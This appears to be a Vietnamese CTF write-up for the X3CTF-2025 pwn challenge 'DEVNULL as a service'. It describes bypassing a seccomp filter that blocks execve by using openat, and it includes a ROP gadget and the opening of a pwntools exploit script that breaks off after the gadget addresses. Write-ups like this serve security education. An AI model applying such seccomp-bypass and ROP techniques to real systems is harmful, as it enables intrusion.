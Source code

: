 ```yaml
--- 
title: X3CTF-2025
date: 2025-03-06 00:00:00 +0800
categories: [writeup]
tags: [pwn]
author: "kuvee"
layout: post
---
```


## DEVNULL as a service 

- nhìn vào bài này thì thấy đây có lẽ là 1 file static , và code cũng khá đơn giản 

![image](/assets/images/x3CTF/2.png)


- nó sẽ filter các syscall như hình bên dưới :

rõ ràng là ta không thể lấy shell bởi vì ```execve``` và ```execveat``` đều bị cấm , tuy nhiên nó cũng không filter hết tất cả , ta có thể dùng ```openat``` thay cho ```open``` là được 

![image](https://hackmd.io/_uploads/r1TzrDwd1e.png)

- việc quan trọng là lúc đầu mình khá bối rối ở việc read đường dẫn vào , vì nếu đường dẫn bị dài thì ta không có quyền kiểm soát được chương trình nữa , ở đây có 1 syscall khá hữu ích cho việc này : 

```0x0000000000420f45: mov qword ptr [rsi], rax; ret;``` 

- ta chỉ việc bỏ path vô ```rax``` bằng ```pop``` rồi dùng thằng này để chuyển nó vào

script

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./dev_null')
p = process()
gdb.attach(p,gdbscript='''
           b*0x0000000000401e9f
           b*0x0000000000401ea6
           ''')

pop_rax = 0x000000000042193c
pop_rsp =0x000000000042fc38
pop_rsi_rbp =0x0000000000402acc
pop_rdi = 0x0000000000413795
pop_rcx = 0x000000000043a4e3
```